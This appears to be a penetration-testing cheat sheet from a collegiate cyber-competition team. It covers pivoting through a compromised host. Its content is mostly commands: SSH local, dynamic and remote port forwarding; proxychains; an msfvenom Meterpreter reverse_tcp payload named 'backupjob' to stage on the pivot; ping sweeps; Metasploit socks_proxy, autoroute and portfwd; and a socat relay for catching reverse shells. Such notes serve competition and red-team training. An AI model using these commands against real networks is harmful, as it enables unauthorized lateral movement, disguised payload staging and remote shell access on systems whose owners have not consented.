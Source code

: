 - Check for multiple NICs on compromised system, look for other networks to pivot to
- ipconfig, ifconfig, netstat -r, ip route etc
  ### SSH local port forwarding
  ![image](https://github.com/nationalcptc-teamtools/Coastline-College/assets/85032657/caddd47b-800d-4b8b-8a87-11344eabcd05)

  - use SSH to forward port on remote host to local port
    ```
    ssh -L <local port>:localhost:<remote port> <username>@<ip>
     ```
  - to check if forwarding is being done
    ```
    netstat -antp | grep <local port>
     ```
    ```
    nmap -v -p <local port> localhost
    ```
### SSH tunneling over SOCKS proxy
  #### proxychains
  ![image](https://github.com/nationalcptc-teamtools/Coastline-College/assets/85032657/952c6e3e-2842-440f-848c-b9c1c03e5756)

  - Use SSH dynamic port forwarding
  ```
    ssh -D 9050 <username>@<ip>
   ```
  -add to port 9050 type socksv4 to
```
  /etc/proxychains.conf
```
  - prefix command with proxychains, like proxychains nmap...etc
### Remote route forwarding with SSH
-used to create reverse connection, for reverse shells using a pivot host
  - create payload that opens reverse shell on internal nic of pivot host
  - transfer to target
  - on attacker box start ssh route forwarding
    ```
     ssh -R <pivot host internal ip>:<LPORT from payload>:0.0.0.0:<listener port on attacker machine> <username>@<ip>
    ```
  - start listener on <listener port on attacker machine>
  - run payload
### Meterpreter tunneling and port forwarding 
  - use instead of ssh port forwarding
  - create meterpreter payload to stage on pivot host
    ```
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
    ```
  - start exploit/multi/handler
  - transfer payload
  - conduct ping sweep
    ```
      for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
    ```
    ```
      for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
    ```
    ```
      1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
    ```
  -create socks proxy on msfconsole
  ``` use auxiliary/server/socks_proxy```
  - use jobs to confirm
  - add to proxychains
  ``` socks4 127.0.0.1 9050 ```
  - use autoroute to add routes to internal subnet (target subnet)
  ``` use post/multi/manage/autoroute ```
  - list active routes
  ``` run autoroute -p ```
  - check functionality with proxychains nmap as we did before
### port forward with msfconsole portfwd
  ```portfwd add -l <local port> -p <remote port> -r <pivot host>```
  - then we should be able to route to target subnet by specifying the -l port in forward connections
    ``` xfreerdp \u:<username> \p:<password> \v:localhost:<local port we specified above> ```
### Meterpreter reverse port forwarding
  ``` portfwd add -R -l <local port> -p <pivot host port> -L <pivot host>```
  - then create payload that opens reverse shell to pivot host on pivot host port this will send reverse connection to our local port
    
## tunneling with socat
 - forward all traffic from pivot host to attacker machine (bidirectional)
   ```socat TCP4-LISTEN:<pivot host port>,fork TCP4:<attacker ip>:<attacker listen port>```
-  create payload that connects to pivot host on pivot host port, it will be redirected to attacker listen port
-  create listener on that port and enjoy the shell
    
